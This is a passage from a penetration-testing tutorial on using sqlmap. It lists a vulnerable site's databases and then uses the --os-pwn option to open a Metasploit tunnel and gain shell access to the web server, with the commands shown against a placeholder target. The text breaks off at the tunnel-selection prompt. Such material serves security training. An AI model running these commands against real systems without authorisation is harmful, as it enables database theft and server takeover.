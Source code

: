 It not only affects web applications even it can compromise the web server also.

We will exploit SQLi to get access to the target system. We will use the SQL map for this purpose, there are also many manual options to server takeover that we will discuss later.


**Sqlmap**

It's a powerful SQL injection tool used to exploit types of SQL vulnerabilities automatically in the target system.

```
# man sqlmap
```

```
# sqlmap -h
```


_Sqlmap comes preconfigured in ParrotOS_


Suppose you find SQL vulnerability in web applications while performing previous phases testing.


And the URL is :

```
https://www.target.com/user/profile?id=1
```
We will use sqlmap to exploit the 'id' parameter, as we found it vulnerable to SQLi.

```
# sqlmap -u https://www.target.com/user/profile?id=1 --dbs
```
This will enumerate all databases in and give us valuable results about data stored.

Suppose we got database result:

```
targetcorp
phpmyadmmin
information_schema
mysql
````

Now we got databases, let' use os pwn feature to get the access to web server.

```
# sqlmap -u https://www.target.com/user/profile?id=1 -D targetcorp --os-pwn
```

It will ask you some question like

```
How do you want to establish the tunnel?
[1] TCP: Metasploit Framework (default)
[2] ICMP: icmpsh - icmp tunneling
```
select 1

```
> 1
```
